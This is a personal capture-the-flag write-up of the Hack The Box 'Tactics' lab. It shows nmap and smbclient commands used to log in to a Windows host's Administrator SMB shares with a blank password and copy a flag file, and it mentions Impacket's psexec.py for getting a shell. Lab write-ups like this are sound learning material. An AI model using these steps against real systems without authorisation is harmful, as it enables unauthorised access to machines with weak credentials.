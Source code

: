 2022-07-20 22:07
source: [HTB](obsidian://open?vault=iswearthisismylast&file=Files%2FTactics.pdf)
tags: #research #htb #tactics #cybersec #SMB #Attacks/Weak_Password #microsoft 


# Tactics


## Thought Process

Okay, the question tells me to [[nmap]] using -Pn.
```
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
```

Okay. So 445 is the #SMB, which the questions on the target are hinting me to check out.

Use [[smbclient]] to access. From the [[smbclient]] man page, I used -L flag. but it needed a User to be inputted... hmm..

Turns out, my [[nmap]] was also weird. shouldn't have done -sV -Pn. -sC -Pn outputs:

```
nmap -sC -Pn 10.129.95.76 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-21 01:07 EDT
Nmap scan report for 10.129.95.76
Host is up (0.088s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-07-21T05:07:29
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 53.42 seconds

```
(insert surprised pikachu face)

It literally tells me look at smb.

Well, it doesn't tell me about default users.... but remember.  microsoft-ds.. its not root. its not admin. Its ADMINISTRATOR. #tips

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.129.95.76 -U Administrator
Enter WORKGROUP\Administrator's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

No pass. just pressed enter. Now we are happy with all these "Admin only" files. How do we know this? the $ at the end. #tips

Time to download flags.

```        
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\10.129.95.76\\C$ -U ADMINISTRATOR
```

gives me access to C drive. Going to Users, Administrator, Desktop had flag.txt
get flag.txt and it is saved to my kali's pwd. 

EZ

## Summary

Not much of a Summary except, there is a more intrusive, more OSCP like exploitation available for this challenge.

[[Impacket]] is bunch of Python classes and example scripts to work with network protocols.
It has [[psexec.py]], which can be used to enable a fully interactive shell.

More documentation should be made for the above scripts if seen again.